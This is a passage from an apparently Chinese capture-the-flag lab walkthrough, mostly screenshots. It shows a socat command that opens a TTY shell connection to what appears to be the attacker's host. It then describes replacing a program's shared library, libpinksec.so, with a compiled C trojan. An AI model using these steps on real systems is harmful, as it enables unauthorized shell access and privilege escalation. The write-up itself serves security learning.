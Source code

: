 ![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KMwDiblBvQBeBiaLOzfq3gIvJUPqWgCEU12a83WexLy6jUt8BrVCotH6Jicr224UMCAQFdF5OazSsOpw/640?wx_fmt=png)

```
socat FILE:`tty`,raw,echo=0 TCP:192.168.182.138:2222
```

成功进来了...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KMwDiblBvQBeBiaLOzfq3gIvJJzPXy1vnJ4p4HeIu6qCLw7C7LSCreE0G5MY6oictLLVia8kseQDsmbzg/640?wx_fmt=png)

发现了个二进制文件，放到本地分析看看...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KMwDiblBvQBeBiaLOzfq3gIvJV1ru68aRgw0u6ZA6PV9cHJ1I6siaqSdqZBdTDjZ50zytWLCtzho2Csw/640?wx_fmt=png)

```
cp pinksecd ../html
```

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KMwDiblBvQBeBiaLOzfq3gIvJ5J2RoQwGOLLtBKNxjEoJicP0jsibaTBickZMpemXAicpOsfoOrSdnKA9GA/640?wx_fmt=png)

成功下载...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KMwDiblBvQBeBiaLOzfq3gIvJ4LSlUl3YM5QHlB9UicicGtEtzibme9JYwDeCcEJrJtgeVetaHDAtiapB2g/640?wx_fmt=png)

对其做个检查... 红框中的需要注意...@plt 意思是它正在从共享库中加载这些函数...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KMwDiblBvQBeBiaLOzfq3gIvJdCBh9lUwsiaME0m55kyMjUeZ4Qh6AicmM8tlQypKtZLm6hQVqkMCppog/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KMwDiblBvQBeBiaLOzfq3gIvJAl4rQPicthIC6Ae15oJE7kqaY0tbp6EMxzYiaZsOZgo3pMZPqEQR0iaBg/640?wx_fmt=png)

果然可以看到是在 libpinksec.so 共享库中加载的函数...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KMwDiblBvQBeBiaLOzfq3gIvJBPxcGtViauliapnHftLn4ZsiakaGqb7ylD0OP381ehOuXAiac04Dr7Msvw/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KMwDiblBvQBeBiaLOzfq3gIvJpOicG8qB2vmluU6UM6ashLibpiaKDjYEYaPkdoe4cYOqKLIeZE2cqcllg/640?wx_fmt=png)

```
cp libpinksec.so /home/pinksec/libpinksec.so.bak
```

   （这边备份下，怕出问题）  

写好 C 木马后...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KMwDiblBvQBeBiaLOzfq3gIvJU6E97iauSiaJ8gpwCEP66jbNahbQFaB507kCMREPye2zfm4CAxBdibEhg/640?wx_fmt=png)

```
gcc -c -fpic dayu.c
gcc -shared dayu.o -o dayu.so
```

这边写好恶意程序的库...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KMwDiblBvQBeBiaLOzfq3gIvJyyGny7pWF5Rv7Va3dB5uUQaWxoOpy33P9lHOMyAP5ZLJiamzpDkibjZw/640?wx_fmt=png)

我这边发现我无权限将 dayu.so 放入 lib 目录中.. 只能替换了... 重新生成下...
